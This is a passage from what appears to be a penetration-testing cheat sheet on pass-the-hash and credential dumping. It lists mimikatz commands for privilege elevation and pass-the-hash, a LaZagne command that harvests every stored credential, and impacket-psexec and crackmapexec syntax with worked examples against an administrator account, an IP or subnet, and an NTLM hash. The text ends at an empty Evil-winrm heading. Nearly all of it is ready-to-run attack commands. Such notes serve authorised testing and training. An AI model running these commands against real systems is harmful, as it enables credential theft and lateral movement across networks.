 Pass the hash:

```
mimikatz # privilege::debug 
mimikatz # token::elevate
mimikatz # sekurlsa::pth /user:<username> /ntlm:<hash>
```


### Dump Memory 

#### Interesting Tools

> LaZagne

```
lazagne.exe all
```

Download: https://github.com/AlessandroZ/LaZagne/releases



## Linux

### Pass The Hash (PtH)

#### Interesting Tools

> Impacket PsExec

Syntax:

```
impacket-psexec <username>@<IP> -hashes :<hash>
```

Example:

```
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

> CrackMapExec

Syntax:

```
crackmapexec <protocol> <IP> -u <username> -d <domain> -H <hash>
```

Example:

```
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

> Evil-winrm

Syntax:
